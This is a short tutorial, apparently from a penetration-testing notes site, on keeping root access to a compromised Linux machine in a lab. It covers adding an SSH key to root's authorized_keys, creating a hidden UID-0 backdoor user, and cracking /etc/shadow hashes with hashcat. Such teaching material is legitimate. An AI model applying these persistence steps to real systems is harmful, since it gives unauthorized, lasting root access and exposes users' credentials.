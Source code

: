```yaml
---
title: Maintaining persistence after compromise in Linux
draft: false
tags:
  - linux
  - persistence
  - add-user
  - ssh-keygen
---
```



## Plot

Let's say you have successfully compromised the target system as root. However, you might not have stable shell connection such as SSH or you might not know the password and only have reverse shell connection.

These connections are still shell but it is loud and ugly. It is also complicated to reproduce. 

 Below are several ways of maintaining persistence once gained shell as a root.


### SSH as root

This is my most recommended and preferred method of maintaining persistence.

First move to the root directory: `cd /root`

If there is not already, created **.ssh** directory: `mkdir .ssh`

Move in to **.ssh** directory: `cd .ssh`

Generate ssh key: `ssh-keygen -f mykey`

![](https://i.imgur.com/rnqmeIa.png)

Copy generated public key to **authorized_keys**: `cat mykey.pub > authorized_keys`

Now there should be these three files on your target root .ssh directory:

![](https://i.imgur.com/jAG7jeg.png)


Copy private key to local machine.

Back in your target system, change permission for **.ssh** directory and **authorized_keys** file: `chmod 700 .ssh` & `chmod 600 .ssh/authorized_keys`

![](https://i.imgur.com/UbAar54.png)

Now using the copied private key, you sign in to SSH as root: `ssh -i mykey root@10.10.10.13`

![](https://i.imgur.com/WTwCQHs.png)

### Add user
I can add whatever user I want to root group and this will allow me to escalate my privilege to root directly when I gain access to low privilege user shell.

I add user and set password using the commands below:
```bash
useradd -ou 0 -g 0 hacker-jadu
passwd hacker-jadu
```

![](https://i.imgur.com/BqerUVn.png)




Now I can switch to user **hacker-jadu** using `su hacker-jadu`:


![](https://i.imgur.com/angpxK5.png)



### Crack /etc/shadow

This method is not very recommended since you don't know how strict password policy is for your target environment.

Taking a look at **/etc/shadow** file, I can see hashed password for the previous set user **hacker-jadu**:

![](https://i.imgur.com/V5dG9C4.png)


Using hashcat, I can crack this hash which will reveal password: 

`hashcat -m 1800 hash rockyou.txt`

![](https://i.imgur.com/vf6tTDH.png)


